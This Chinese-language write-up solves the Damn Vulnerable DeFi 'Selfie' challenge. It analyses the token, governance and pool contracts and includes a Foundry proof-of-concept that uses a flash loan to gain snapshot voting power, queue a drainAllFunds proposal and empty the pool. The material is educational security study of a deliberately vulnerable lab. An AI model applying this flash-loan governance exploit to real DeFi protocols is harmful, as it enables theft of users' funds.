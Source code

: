 # Selfie
> 题目链接：https://github.com/Chocolatieee0929/ContractSafetyStudy/tree/main/damn-vulnerable-defi/src/Contracts/selfie
## 攻击目标
来源于 damn-vulnerable-defi/test/Levels/selfie/README.md
```
You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.
```
## 合约分析

### `DamnValuableTokenSnapshot.sol`
这份合约继承了`OpenZeppelin ERC20Snapshot`，这是oz治理代币标准的实现，我在这篇文章对ERC20Snapshot 和 ERC20Vote 进行了学习。

| Function Name | Function Signature | Functionality |
| ------------- | ---------- | ------------------ | 
| snapshot | snapshot() | 允许任何人拍摄当前DVT治理代币的快照。它将返回拍摄的快照的ID。
| getBalanceAtLastSnapshot |getBalanceAtLastSnapshot(address) | 一个获取器函数，返回指定账户在上一个快照时的余额。
| getTotalSupplyAtLastSnapshot | getTotalSupplyAtLastSnapshot() | 一个获取器函数，返回上一个快照时治理代币的总供应量。

这个代币被SelfiePoolSimpleGovernance和SelfiePool同时使用：
1. SelfiePool提供 DVT 的闪电贷；
2. SimpleGovernance使用DVT代币来检查用户是否拥有足够的投票权（用户余额必须超过上一个快照中DVT代币总供应量的一半）来排队一个操作。

### `SimpleGovernance.sol`
这是一个简单的治理合约，它使用DVT代币来检查用户是否拥有足够的投票权（用户余额必须超过上一个快照中DVT代币总供应量的一半）来排队一个操作。

| Function Name | Function Signature | Functionality |
| ------------- | ------------------ | --------------|
| queueAction | queueAction(address,bytes,uint256) |将向队列中添加一个提案。只有提案者拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）并且接收者不是治理合约本身msg.sender时，提案才会被添加。
| executeAction | executeAction(uint256) | 只有在提案时间过去足够长的时间（至少两天）才会被执行。
| getActionDelay | getActionDelay() | 返回提案延迟时间

1. `queueAction`
我们注意到，想要提出的提案必须满足以下条件：
   1. 提案者必须拥有足够的投票权（在上次快照时间拥有超过DVT总供应量的一半）
   2. 接收者不能是治理合约本身msg.sender
   
    第一点由于没有对持有代币时间的限制，我们可以通过闪电贷来绕过第一点的检查。

1. `executeAction`
我们注意到`executeAction`是通过外部调用执行提案，
```
    function executeAction(uint256 actionId) external payable {
        // 检提案是否可以被执行
        if (!_canBeExecuted(actionId)) revert CannotExecuteThisAction();

        GovernanceAction storage actionToExecute = actions[actionId];
        // 更新行动的执行时间戳
        actionToExecute.executedAt = block.timestamp;

->      actionToExecute.receiver.functionCallWithValue(actionToExecute.data, actionToExecute.weiAmount);

        emit ActionExecuted(actionId, msg.sender);
    }
```
简单来说，通过一定时间的提案通过调用提案中的`receiver`，通过functionCallWithValue 外部调用calldatat（data）来执行提案。

### `SelfiePool.sol`
这是一个简单的借贷合约，其中存入了150万DVT代币，具有无费用的闪电贷方法。除此之外，还提供了`drainAllFunds`函数，该函数被治理函数修饰。
```
    modifier onlyGovernance() {
        if (msg.sender != address(governance)) revert OnlyGovernanceAllowed();
        _;
    }

    function drainAllFunds(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);

        emit FundsDrained(receiver, amount);
    }
```
只能由治理合约进行调用，结合上述`SimpleGovernance.sol`的`executeAction`函数，我们不难想到，可以通过使用提案来使治理合约调用`drainAllFunds`函数，将dvt全部转给攻击者。


综上，我们通过分析合约，可以找到合约薄弱点如下：
1. `DamnValuableTokenSnapshot.sol` 攻击合约通过`snapshot()`来对DVT进行快照，这块没有对时间进行约束；
2. `SimpleGovernance.sol` 通过`executeAction`来执行receiver的外部调用来实现提案执行逻辑。

## 攻击步骤
1. 通过闪电贷借款，通过`dvtSnapshot.snapshot()`获取投票资格；
2. 发起queueAction，将receiver设置为slefiePool，并将提款给attacker逻辑转换成calldata，转换成提案；
3. 归还闪电贷
4. 模拟时间流失，执行Action，攻击成功。
    注：前1-3步在闪电贷归还函数里实现

## PoC
```
    function testExploit() public {
        selfiePool.flashLoan(TOKENS_IN_POOL);
        vm.warp(block.timestamp + 3 days);
        simpleGovernance.executeAction(actionId);
        
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

    function receiveTokens(address token, uint256 amount) external {
        // This function is called by the token contract when tokens are transferred to it (via `transferAndCall`)
        require(
            token == address(dvtSnapshot),
            "The token must be DVT"
        );
        /* 
         * 2. 发起queueAction，调用slefiePool的取款，将钱转给attacker
         * 3. 归还闪电贷 
         */
        dvtSnapshot.snapshot();
        dvtSnapshot.snapshot();
        dvtSnapshot.snapshot();
        actionId = simpleGovernance.queueAction(address(selfiePool), abi.encodeWithSignature("drainAllFunds(address)", address(attacker)), 0);
        dvtSnapshot.transfer(msg.sender, amount);
        
    }
```
完整的PoC代码见[这里](https://github.com/Daemon-Labs/damn-vulnerable-defi/blob/main/src/6.Selfie/SelfieAttacker.sol)